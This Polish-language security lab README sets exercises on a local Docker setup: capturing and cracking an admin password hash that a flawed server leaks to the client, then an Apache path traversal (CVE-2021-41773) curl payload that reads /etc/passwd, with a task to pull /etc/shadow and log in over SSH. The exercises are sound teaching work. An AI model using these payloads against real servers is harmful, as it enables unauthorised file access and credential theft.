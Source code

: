 # __Przygotowanie Środowiska__
- **[Docker Desktop](https://www.docker.com/products/docker-desktop/)**

Docker to platforma do tworzenia, uruchamiania i zarządzania kontenerami oprogramowania. Kontenery to lekkie, samodzielne jednostki oprogramowania, które zawierają wszystko, czego potrzeba do uruchomienia aplikacji, w tym kod, biblioteki, zależności i pliki konfiguracyjne.

- **[John the Ripper](https://www.openwall.com/john/) | [Hashcat](https://hashcat.net/hashcat/)**

<br><br>

# __Hash od Serwera__

Jest to luka utworzona poprzez zwykły ludzki błąd przy projektowaniu systemu logowania. Serwer zamiast sprawdzać prawidłowość hasła u siebie to sprawdza po stronie klienta, przez co atakujący w łatwy sposób może wykorzystać te informacje by złamać hasło.

## **Zaczynamy**:

1. Należy uruchomić serwer oraz client

    **Uruchamianie Klienta:**
    
    Wejdź do katalogu client a następnie wykonaj poniższe komendy:

        ```
        npm ci
        npm start
        ```

    **Uruchamianie Serwera:*
    
    Wejdź do katalogu server a następnie wykonaj poniższe komendy:
    
        ```
        npm ci
        npm start
        ```

2. Teraz uruchom bazę danych w dokerze za pomocą komendy (należy znajdować się w folderze zawierającym plik "docker-compose.yaml"):
    ```
    docker compose up
    ```
## **Zadanie 1**
Zdobądź hash hasła do użytkownika admin, a następnie złam za pomocą dowolnego narzędzia. Zauważ, że przy próbie logowania na konto danego uzytkowika serwer zwraca ci hash jego hasła. Spróbuj go podglądnąć przy pomocy Burpa czy też innych narzędzi.


## **Zadanie 2**
Korzystając z wiedzy zdobytej podczas prezentacji oraz na innych zajęciach, popraw aplikację, tak aby do porównywania haszy dochodziło w odpowiednim miejscu. Czyli:
1. Porównywanie haszy powinno następować bezpośrednio po pobraniu haszu z bazy danych.
2. Serwer nie może pobranego z bazy danych haszu zwracać w odpowiedzi do klienta.




<br><br>

# __Path Traversal__

Path Traversal to poważna luka w zabezpieczeniach, która może być wykorzystywana przez hakerów do uzyskania nieautoryzowanego dostępu do systemu lub do wykonania nieautoryzowanych poleceń na zdalnym komputerze.

**<u>Podana luka została znaleziona w serwerze Apache 2.4.49 oraz 2.4.50 i nazwana [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)</u>**

**Apache** to darmowe, otwartoźródłowe i wieloplatformowe oprogramowanie serwera WWW wydane na licencji Apache License 2.0. Oprogramowanie jest utrzymywane i rozwijane przez organizację non profit Apache Software Foundation.

Podatność **Path Travesal** występuje jeśli serwer posiada następującą konfiguracją

```console
<Directory />
Require all granted
</Directory>
```

W tym przypadku ustawienie `Require all granted` oznacza, że wszyscy użytkownicy mają mieć dostęp do plików i katalogów.


<br>
<br>

## **Zaczynamy**:

1. Należy uruchomić kontener komendą

```console
docker run -p 8090:80 -p 22:22 gekonisko/path-traversal
```

Kontener wystawia dwa port

- http[80]: http://localhost:8090
- ssh[22]: agh@localhost

<br>

2. Korzystając z narzędzi curl, postam, burp itp. wyślij następujące zapytanie

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e etc/passwd
```

Serwer powinien zwrócić zawartość pliku `/etc/passwd` zawierający również specjalne konto **agh**

```console
…
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
agh:x:1000:1000:,,,:/home/agh:/bin/bash
```

## **Zadanie 3**

Serwer ma wystawiony również protokół SSH, twoim zadaniem jest zalogowanie się na użytkownika agh przez protokół ssh `ssh agh@localhost`. Wykorzystaj plik `etc/shadow` aby wyciągnąć hasło użytkownika agh.

